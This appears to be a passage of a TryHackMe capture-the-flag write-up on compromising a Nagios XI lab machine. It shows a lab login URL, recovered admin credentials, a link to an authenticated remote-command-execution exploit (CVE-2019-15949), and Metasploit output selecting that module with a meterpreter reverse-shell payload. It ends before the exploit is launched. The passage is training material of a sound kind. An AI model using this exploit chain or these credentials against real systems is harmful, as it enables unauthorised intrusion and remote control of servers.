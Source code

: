 ```
Artist                          : Piet Mondrian
Copyright                       : Piet Mondrian, tryhackme 2020
Image Size                      : 990x990
Megapixels                      : 0.980
```

[http://10.10.135.242/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1](http://10.10.135.242/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1)

`nagiosadmin%n3p3UQ&9BjLp4$7uhWdY`

![](./2020-10-11_09-45.png)

[Nagios XI - Authenticated Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/48191)

```
msf5 > search CVE-2019-15949

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Authenticated Remote Command Execution
```

```
msf5 > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to NagiosXI
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin      yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
```